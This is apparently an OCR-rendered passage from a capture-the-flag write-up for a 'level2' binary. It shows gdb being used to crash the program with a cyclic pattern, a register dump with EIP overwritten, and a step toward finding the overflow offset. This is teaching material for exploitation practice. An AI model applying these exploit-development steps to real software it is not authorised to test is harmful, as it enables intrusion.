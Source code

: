 ## _**Okay, now we have the cards in hand and know the objectif of thi step : <u>Using the unique pattern to find the offset of the `eip` register</u>.**_

- We give the unique pattern to the program using `gdb` :

```sh
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```

- Okay, the program crash, we can see the `eip` register to constat where in the string the program crash :

```sh
(gdb) info register
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6ac	-1073744212
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff700	0xbffff700
ebp            0x63413563	0x63413563
esi            0x0	0
edi            0x0	0
eip            0x37634136	0x37634136
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```

- And now, we past the `eip` address <u>`0x37634136`</u> (the adress of the character that overwrite the `eip` register) to the tool to find the offset :

![offset](Ressources/offset.png)
